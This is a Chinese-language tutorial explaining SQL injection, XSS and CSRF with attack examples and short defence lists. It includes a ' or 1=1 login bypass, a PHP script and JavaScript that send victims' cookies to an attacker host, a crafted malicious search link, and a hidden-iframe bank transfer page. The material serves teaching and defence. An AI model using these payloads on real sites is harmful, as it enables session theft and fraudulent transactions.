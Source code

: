 # 常见web漏洞（Sql注入、XSS、CSRF）原理以及攻防总结
## Sql注入
所谓SQL注入式攻击，就是攻击者把SQL命令插入到Web表单的输入域或页面请求的查询字符串，欺骗服务器执行恶意的SQL命令。 攻击者通过在应用程序预先定义好的SQL语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的查询,篡改命令。<br/>
**攻击原理**
``` python
假设的登录查询
SELECT * FROM  users  WHERE login = 'victor' AND password = '123
Sever端代码
String sql = "SELECT * FROM users WHERE login = '" + formusr + "' AND password = '" + formpwd + "'";
输入字符
formusr = ' or 1=1
formpwd = anything
实际的查询代码
SELECT * FROM users WHERE username = ' ' or 1=1  AND password = 'anything' 
```
**如何防范**<br/>
 - 服务端特殊字符过滤: <、>、* 、& 等
 - 使用ORM框架
 - 参数化Sql查询语句
## Xss攻击
 XSS 全称(Cross Site Scripting) 跨站脚本攻击， 是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的.  比如获取用户的Cookie，导航到恶意网站,携带木马等。<br/>
 **分类： 反射型和持久型**<br/>
### 反射型
这种攻击不经过数据库，是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的，攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。<br/>
**这种漏洞主要存在于与用户有交互的地方，如搜索框，如果后台没有对搜索的内容进行过滤，而原封不动的将搜索内容展示在dom中，则存在Xss漏洞**<br/>
**详细攻击方式如下：**
 - 构建自己的黑客网站 如： hacker.qq.com
 - 该域名下有一 hack.php:
 ``` php
<?php 
$cookie = $_GET['q']; 
var_dump($cookie); 
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?>
```
- 另外一 hack.js
``` js
var img = new Image();
img.src = "http://hacker.qq.com/hack.php?q="+document.cookie;
document.body.append(img);
```
- 构造一个连接来欺骗用户
``` html
<a href="http://xsstest.qq.com/search.php?q=%3Cscript+
src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E&commend=
all&ssid=s5-e&search_type=item&atype=&filterFineness=&rr=
1&pcat=food2011&style=grid&cat=">点击就送998</a>
```
假设``` http://xsstest.qq.com ```就是存在xss漏洞的网站，search.php后的q参数 ,解码后为<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script>``` <br/>
实际的作用是模拟用户在搜索框中输入<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script> ```<br/>
后点击搜索。search.php未经处理的将其直接输入到页面， 黑客就可以获取用户在xsstest.qq.com网站的cookie。<br/>
**如何防范** <br/>
- 后台对敏感字符过滤
- 前端encodehtml
### 持久型
他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。<br/>
如上例中的hack.js, 如果用户输入的内容是hack.js中的内容，而网站没有对用户输入的内容进行审查就存入数据库，然后在论坛帖子中展示，其他用户在浏览论坛的时候就会在浏览器中执行hack.js的js脚本。<br/>
**如何防范** <br/>
- 后台对敏感字符过滤
## CSRF
CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。<br/>
你这可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。<br/>
**CSRF 与 Xss 最大的区别是： CSRF不直接获取用户的cookie, 而Xss 则会直接获取用户的Cookie** <br/>
**如果用户访问了某一个银行的网站忘记登出了， 然后又访问了一个恶意网站，而恶意网站中存在以下代码，则发生CSRF** <br/>

``` html
<html>
<head>
  <script type="text/javascript">
    function steal()
    {
             iframe = document.frames["steal"];
             iframe.document.Submit("transfer");
    }
  </script>
</head>
<body onload="steal()">
 <iframe name="steal" display="none">
   <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
     <input type="hidden" name="toBankId" value="11">
     <input type="hidden" name="money" value="1000">
   </form>
 </iframe>
</body>
</html>
```
**如何防范**
- 验证码
- Cookie Hashing(所有表单请求都包含同一个伪随机值)，**原则上来讲黑客无法获取用户的cookie，只是原则上来讲** <br/>
``` html
<?php
   $hash = md5($_COOKIE['cookie']);
 ?>
 <form method=”POST” action=”transfer.php”>
   <input type=”text” name=”toBankId”>
   <input type=”text” name=”money”>
   <input type=”hidden” name=”hash” value=”<?=$hash;?>”>
   <input type=”submit” name=”submit” value=”Submit”>
 </form>
```
然后在服务器端进行Hash值验证。
